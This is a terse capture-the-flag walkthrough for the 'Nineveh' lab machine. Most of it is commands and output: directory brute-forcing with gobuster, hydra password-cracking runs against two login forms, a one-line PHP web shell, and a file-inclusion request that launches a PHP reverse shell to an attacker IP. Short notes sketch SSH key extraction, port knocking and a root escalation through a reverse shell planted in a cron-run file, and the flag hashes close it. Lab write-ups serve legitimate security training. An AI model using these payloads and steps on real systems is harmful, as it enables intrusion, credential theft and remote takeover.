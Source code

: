 ```zsh
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10
.10.43 -t 30 -k                                                                                                        
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.43
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/08 03:03:04 Starting gobuster
===============================================================
/db (Status: 301)
/server-status (Status: 403)
/secure_notes (Status: 301)
===============================================================
2020/06/08 03:29:40 Finished
===============================================================
```


```zsh

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.
10.43:80 -t 30                                              
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43:80
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/08 03:33:05 Starting gobuster
===============================================================
/department (Status: 301)
/server-status (Status: 403)

```

Departmemnt Password CracK:

```zsh
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/
login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password"
```
> [80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t


phpLiteAdmin Login Password crack:

```zsh
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect Password."
```

ninevehNotes.php

<?php echo system($_GET["cmd"]); ?>

http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=ls

```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=php+-r+'$sock%3dfsockopen("10.10.14.11",443)%3bexec("/bin/bash+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: nineveh.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=fd5kehs3bci6tabbfs7oaj2q61
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

/report 

ssh into the machine using the key found while ```binwalk -e nineveh```

*PORT KNOCKING FROM IPPSEC watch*

pspy - chroot vuln > make a file called update and put a reverse shell in it. chmod +x update. Start a listner port at the number in update file. Enjoy root !


82a864f9eec2a76c166ec7b1078ca6c8

8a2b4956612b485720694fb45849ec3a